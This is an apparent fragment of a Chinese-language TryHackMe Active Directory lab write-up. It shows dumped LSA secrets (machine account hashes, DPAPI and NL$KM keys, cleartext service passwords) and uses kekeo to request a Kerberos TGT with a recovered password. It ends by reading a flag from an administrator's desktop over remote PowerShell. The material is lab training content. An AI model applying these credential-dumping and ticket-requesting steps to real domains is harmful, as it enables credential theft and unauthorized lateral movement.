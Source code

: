 Secret  : $MACHINE.ACC
cur/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db 
old/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e 
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db

Secret  : DefaultPassword
old/text: vagrant

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 b6 54 c4 83 d9 88 10 f6 ee ae fc b7 ed 2d a2 d6 47 11 3f 8f 4a 6d 7f 72 35 b8 a2 93 3d 5c 5e 3f 03 8d 79 49 90 e7 2e e0  
    full: b654c483d98810f6eeaefcb7ed2da2d647113f8f4a6d7f7235b8a2933d5c5e3f038d794990e72ee0 
    m/u : b654c483d98810f6eeaefcb7ed2da2d647113f8f / 4a6d7f7235b8a2933d5c5e3f038d794990e72ee0 
old/hex : 01 00 00 00 10 4d a3 82 e2 da 30 1f 33 d6 49 a4 c9 81 26 e5 25 59 bb 9f 8a 76 b1 5d 59 c6 87 c6 32 b7 02 0b c1 5b 24 f4 44 d0 74 31  
    full: 104da382e2da301f33d649a4c98126e52559bb9f8a76b15d59c687c632b7020bc15b24f444d07431
    m/u : 104da382e2da301f33d649a4c98126e52559bb9f / 8a76b15d59c687c632b7020bc15b24f444d07431 

Secret  : NL$KM
cur/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99 ff 9
7 ec 7f 49 a1 79 15 d9 a0 04 ac 58  
old/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99 ff 9
7 ec 7f 49 a1 79 15 d9 a0 04 ac 58

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@

```

明文密码：Password1@



根据上面的明文密码，使用kekeo生成tgt
```
PS C:\> C:\Tools\kekeo\x64\kekeo.exe                                                                                               

  ___ _    kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 /   ('>-  "A La Vie, A L'Amour"
 | K  |    /* * *
 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
                                             with 10 modules * * */

kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt